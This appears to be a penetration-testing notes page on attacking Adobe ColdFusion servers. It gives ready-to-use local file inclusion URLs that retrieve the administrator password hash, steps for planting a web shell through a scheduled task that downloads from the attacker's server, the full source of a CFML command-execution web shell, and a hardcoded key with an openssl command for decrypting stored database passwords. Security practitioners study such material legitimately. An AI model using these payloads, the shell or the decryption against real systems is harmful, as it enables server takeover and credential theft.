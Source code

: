 # Adobe Coldfusion

### Introduction&#x20;

* ColdFusion is basically just yet another commercial web application development platform. The programming language used with that platform is also commonly called ColdFusion, but the correct name of it is [ColdFusion Markup Language (CFML)](http://en.wikipedia.org/wiki/CFML).
* Vulnerabilities against ColdFusion application are the typical ones so you can find Local File Disclosure (LFD), SQL injection and Cross-site Scripting as well.&#x20;
* And of course, ColdFusion by default runs as NT-Authority\SYSTEM (Windows) or nobody (Linux), thus making the ColdFusion+Windows combination a very desirable target.
* Source: [https://pentest.tonyng.net/attacking-adobe-coldfusion/](https://pentest.tonyng.net/attacking-adobe-coldfusion/)&#x20;

### Coldfusion LFI

* In unpatched versions of ColdFusion 6, 7 and 8 there is a local file inclusion vulnerability ([APSB10-18](http://www.adobe.com/support/security/bulletins/apsb10-18.html)) which you can exploit to get the administrator password hash from the password.properties file.
* ColdFusion 6:

```
http://[HOSTNAME:PORT]/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\CFusionMX\lib\password.properties%en
```

* ColdFusion 7:

```
http://[HOSTNAME:PORT]/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\CFusionMX7\lib\password.properties%en
```

* ColdFusion 8:

```
http://[HOSTNAME:PORT]/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\ColdFusion8\lib\password.properties%en
```

* All versions (according to [this site](http://www.blackhatlibrary.net/Coldfusion\_hacking) \[3], but I have never tried it):

```
http://site/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\..\..\JRun4\servers\cfusion\cfusion-ear\cfusion-war\WEB-INF\cfusion\lib\password.properties%en
```

* If the local file inclusion is successful, the password hash (SHA1) is written back to you on the administrative login page like this (hash was reducted):

<figure><img src="https://3.bp.blogspot.com/-UmlzABYTwYw/UwH___Yh4dI/AAAAAAAAAqA/-FQ23X4_EMY/s1600/CF8.png" alt=""><figcaption></figcaption></figure>

### Coldfusion Authenticated RCE

* Once we gain access to the administration panel we can upload a CFM shell.
* Go to the `Debugging & Loging / Scheduled Taks` menu element&#x20;
* Add a scheduled task that would download our CFML script from our webserver to the ColdFusion server’s webroot.&#x20;
* Make sure you schedule the deployment to some reasonable time, so 5-10 minutes from your current time&#x20;
* Here is an example on how it looks like:

<figure><img src="https://3.bp.blogspot.com/-J68uHE_fxuA/Uv31tFw9mWI/AAAAAAAAApg/xDRp8S5t5Eo/s1600/CFEXEC_UPLOAD.png" alt=""><figcaption></figcaption></figure>

* You can find a few CFML shells

```

    <html>
    <body>
     
    Notes:<br><br>
    <ul>
    <li>Prefix DOS commands with “c:\windows\system32\cmd.exe /c <command>” or wherever cmd.exe is<br>
    <li>Options are, of course, the command line options you want to run
    <li>CFEXECUTE could be removed by the admin. If you have access to CFIDE/administrator you can re-enable it
    </ul>
    <p>
    <cfoutput>
    <table>
    <form method=“POST” action=“cfexec.cfm”>
    <tr><td>Command:</td><td><input type=text name=”cmd” size=50
    <cfif isdefined(“form.cmd”)>value=”#form.cmd#”</cfif>><br></td></tr>
    <tr><td>Options:</td><td> <input type=text name=”opts” size=50
    <cfif isdefined(“form.opts”)>value=”#form.opts#”</cfif>><br></td></tr>
    <tr><td>Timeout:</td><td> <input type=text name=”timeout” size=4
    <cfif isdefined(“form.timeout”)>value=”#form.timeout#”
    <cfelse>value=”5″</cfif>></td></tr>
    </table>
    <input type=submit value=“Exec”>
    </form>
     
    <cfif isdefined(“form.cmd”)>
    <cfsavecontent variable=“myVar”>
    <cfexecute name = “#Form.cmd#” arguments = “#Form.opts#” timeout = “#Form.timeout#”> </cfexecute>
    </cfsavecontent>
    <pre> #myVar# </pre>
    </cfif>
    </cfoutput>
    </body>
    </html>
```



And it looks like this once it is uploaded (I had to use the Options fields to fit in the screenshot):

<figure><img src="https://2.bp.blogspot.com/-bIpXlXxblpY/Uv3zZ8yU7UI/AAAAAAAAApU/13IeKs-YjqM/s1600/CFEXEC.png" alt=""><figcaption></figcaption></figure>

### Getting database passwords from Data Sources

* Once you have access to the administrative panel, you can also get the connection strings and credentials to databases connected to ColdFusion.&#x20;
*   Depending again on the ColdFusion version, the credentials are stored in different places, but you might be able to retrieve the passwords from the administrative panel as well! ![🙂](https://s.w.org/images/core/emoji/11/svg/1f642.svg)


*   For ColdFusion 6 and 7 the passwords for DataSources encrypted in the following XML files:

    ```
    [ColdFusion_Install_Dir]\lib\neo-query.xml
    ```
*   For ColdFusion 8, 9 and 10:

    ```
    [ColdFusion_Install_Dir]\lib\neo-datasource.xml
    ```


* The most important thing is that by decompiling&#x20;
* `\lib\cfusion.jar` and looking at the `\coldfusion\sql\DataSourceDef.class`&#x20;
* You can find the seed for the key `(“0yJ!@1$r8p0L@r1$6yJ!@1rj”)` and algorithm (3DES and then Base64 encoding) used.
* In case of ColdFusion 6, 7 and 8, the encrypted passwords can be found just by looking at the page source of the individual data sources on the administrative panel (on ColdFusion 9 and 10 this was fixed and you will only see \*\*\*\*\*\*\*\* in the page source for the passwords).
*   No matter how you obtain the encrypted passwords, you can decrypt them with openSSL like this:

    ```
    echo [encrypted_and_base64_encoded_password] | openssl des-ede3 -a -d -K 30794A21403124723870304C4072312436794A214031726A -iv 30794A2140312472; echo
    ```

### Metasploit

* You might also consider using Metasploit to exploit some of the above vulnerabilities:

<figure><img src="https://4.bp.blogspot.com/-3KK_pw5bbbo/UwMyVad_fJI/AAAAAAAAAqU/e5q5EFS16Y4/s1600/MSF_Coldfusion.png" alt=""><figcaption></figcaption></figure>
